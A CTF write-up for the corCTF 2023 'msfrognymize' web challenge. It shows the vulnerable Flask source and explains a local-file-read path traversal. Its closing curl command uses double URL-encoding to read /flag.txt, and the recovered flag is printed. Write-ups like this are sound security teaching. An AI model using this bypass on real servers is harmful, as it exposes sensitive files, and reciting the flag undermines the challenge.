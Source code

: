 ```yaml
---
title: 2023 corCTF - msfrognymize
author: thanguyen165
date: 2023-07-31 00:00:00 +0700
categories: [Write-ups, 2023_corCTF]
tags: [Web Exploitation, Path traversal]
---
```


* 64 solves / 147 points
* author: jazzpizazz

## Description

> At CoR we care greatly about privacy (especially FizzBuzz). For this reason we anonymize any selfies before sharing them on Discord. We even encrypt the metadata using a special key!

### Attached

[msfrognymize.tar.gz](https://static.cor.team/uploads/edd98f8d859b22e2924932ef6936368031f76825e6534413ca95f2c34ef0cac4/msfrognymize.tar.gz)

```python
import os
import piexif
import tempfile
import uuid

from PIL import Image, ExifTags
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import hashes, hmac
from flask import Flask, request, send_file, render_template
from urllib.parse import unquote
from werkzeug.utils import secure_filename

from celery_config import celery_app
from tasks import process_image

app = Flask(__name__)

celery_app.conf.update(app.config)

UPLOAD_FOLDER = 'uploads/'
ENCRYPTION_KEY = open("/flag.txt", "rb").readline()


def hmac_sha256(data):
    h = hmac.HMAC(ENCRYPTION_KEY, hashes.SHA256(), backend=default_backend())
    h.update(data)
    return h.finalize().hex()


def encrypt_exif_data(exif_data):
    new_exif_data = {}
    for tag, value in exif_data.items():
        if tag in ExifTags.TAGS:
            tag_name = ExifTags.TAGS[tag]
            if tag_name == "Orientation":
                new_exif_data[tag] = 1
            else:
                new_exif_data[tag] = value
        else:
            new_exif_data[tag] = hmac_sha256(value)
    return new_exif_data


@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        file = request.files['file']
        if file:
            try:
                img = Image.open(file)
                if img.format != "JPEG":
                    return "Please upload a valid JPEG image.", 400

                exif_data = img._getexif()
                encrypted_exif = None
                if exif_data:
                    encrypted_exif = piexif.dump(encrypt_exif_data(exif_data))
                filename = secure_filename(file.filename)
                temp_path = os.path.join(tempfile.gettempdir(), filename)
                img.save(temp_path)

                unique_id = str(uuid.uuid4())
                new_file_path = os.path.join(UPLOAD_FOLDER, f"{unique_id}.png")
                process_image.apply_async(args=[temp_path, new_file_path, encrypted_exif])

                return render_template("processing.html", image_url=f"/anonymized/{unique_id}.png")

            except Exception as e:
                return f"Error: {e}", 400

    return render_template("index.html")


@app.route('/anonymized/<image_file>')
def serve_image(image_file):
    file_path = os.path.join(UPLOAD_FOLDER, unquote(image_file))
    if ".." in file_path or not os.path.exists(file_path):
        return f"Image {file_path} cannot be found.", 404
    return send_file(file_path, mimetype='image/png')


if __name__ == '__main__':
    app.run()

```

## Analyzation

These are important lines

```python
UPLOAD_FOLDER = 'uploads/'
ENCRYPTION_KEY = open("/flag.txt", "rb").readline()

@app.route('/anonymized/<image_file>')
def serve_image(image_file):
    file_path = os.path.join(UPLOAD_FOLDER, unquote(image_file))
    if ".." in file_path or not os.path.exists(file_path):
        return f"Image {file_path} cannot be found.", 404
    return send_file(file_path, mimetype='image/png')
```

All the images are stored in ```uploads/``` directory.

When a ```GET``` request is sent to ```/anonymized/<image_file>```, it will:
- URL decode the image filename ```<image_file>```, and join the path ```UPLOAD_FOLDER``` by ```os.path.join()``` function.
- Check if ```..``` and the filepath ```uploads/<image_file>``` exists in the ```file_path``` or not.
- Send the image to the client.

[Path traversal](https://owasp.org/www-community/attacks/Path_Traversal) is the answser for this problem. But how??

- Firstly, we need to bypass the ```..``` filter. The ```unquote()``` decode only ONE TIME (!) So double encoding will work.
- Secondly, the ```os.path.join()``` function itself vulnerable. Because [python.org document](https://docs.python.org/3/library/os.path.html#os.path.join) says
```
If a segment is an absolute path (which on Windows requires both a drive and a root), then all previous segments are ignored and joining continues from the absolute path segment.
```

So just give them absolute path of flag, ```/flag.txt```.

## Solution

```sh
curl https://msfrognymize.be.ax/anonymized/%252Fflag.txt
```

The flag is
```
corctf{Fr0m_Priv4cy_t0_LFI}
```
